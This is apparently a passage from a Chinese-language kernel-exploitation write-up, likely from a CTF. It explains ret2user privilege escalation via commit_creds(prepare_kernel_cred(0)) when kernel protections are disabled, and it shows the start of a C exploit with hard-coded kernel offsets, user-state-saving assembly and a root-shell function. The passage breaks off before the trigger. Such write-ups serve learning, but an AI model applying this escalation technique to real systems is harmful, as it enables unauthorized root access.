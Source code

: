 
> 这种保护全关的情况其实是比较好操作的，因为存在直接溢出的情况下可以 ret2user，也就是在内核空间执行用户空间的代码，利用了内核空间可以访问用户空间这个特性来定向内核代码或数据流指向用户空间，并以ring0的特权级在用户空间完成提权操作。

可以直接嵌入汇编代码完成对 commit_creds(prepare_kernel_cred(0)) 的调用并返回到用户态

##### exp

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <signal.h>

void get_shell();

size_t vmlinux_base = 0xffffffff81000000;
size_t user_cs, user_ss, user_rflags, user_sp;

size_t commit_creds = 0x4c6410;
size_t prepare_kernel_cred = 0x4c67f0;


void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    info("status saved!",0);
}

void show( size_t buf[] , int len){
    for (int i =0;i<len;i++){
        printf("0x%-4x -> 0x%lx\n" , i,buf[i]);
    }
}
```